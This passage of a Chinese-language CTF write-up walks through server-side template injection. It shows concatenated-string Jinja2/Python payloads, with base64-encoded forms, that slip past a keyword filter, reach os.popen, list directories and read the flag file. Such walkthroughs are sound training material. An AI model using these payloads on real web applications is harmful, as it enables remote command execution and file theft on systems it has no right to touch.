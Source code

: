 构造 payload, 发现存在关键词被过滤, 用拼接字符串的方式绕过:

```python
{{''.__class__.__base__.__subclasses__()[127].__init__.__globals__.__builtins__['__imp'+'ort__']('o'+'s')['po'+'pen']('l'+'s').read()}}
# 也就是
# e3snJy5fX2NsYXNzX18uX19iYXNlX18uX19zdWJjbGFzc2VzX18oKVsxMjddLl9faW5pdF9fLl9fZ2xvYmFsc19fLl9fYnVpbHRpbnNfX1snX19pbXAnKydvcnRfXyddKCdvJysncycpWydwbycrJ3BlbiddKCdsJysncycpLnJlYWQoKX19
```

![1-3.png](1-3.png)

成功执行, 接下来找 flag 即可。

```python
{{''.__class__.__base__.__subclasses__()[127].__init__.__globals__.__builtins__['__imp'+'ort__']('o'+'s')['po'+'pen']('l'+'s'+' /').read()}}
#e3snJy5fX2NsYXNzX18uX19iYXNlX18uX19zdWJjbGFzc2VzX18oKVsxMjddLl9faW5pdF9fLl9fZ2xvYmFsc19fLl9fYnVpbHRpbnNfX1snX19pbXAnKydvcnRfXyddKCdvJysncycpWydwbycrJ3BlbiddKCdsJysncycrJyAvJykucmVhZCgpfX0=
```

![1-4.png](1-4.png)

```python
{{''.__class__.__base__.__subclasses__()[127].__init__.__globals__.__builtins__['__imp'+'ort__']('o'+'s')['po'+'pen']('ca'+'t'+' /this_is_the_f'+'lag.txt').read()}}
#e3snJy5fX2NsYXNzX18uX19iYXNlX18uX19zdWJjbGFzc2VzX18oKVsxMjddLl9faW5pdF9fLl9fZ2xvYmFsc19fLl9fYnVpbHRpbnNfX1snX19pbXAnKydvcnRfXyddKCdvJysncycpWydwbycrJ3BlbiddKCdjYScrJ3QnKycgL3RoaXNfaXNfdGhlX2YnKydsYWcudHh0JykucmVhZCgpfX0=   
```
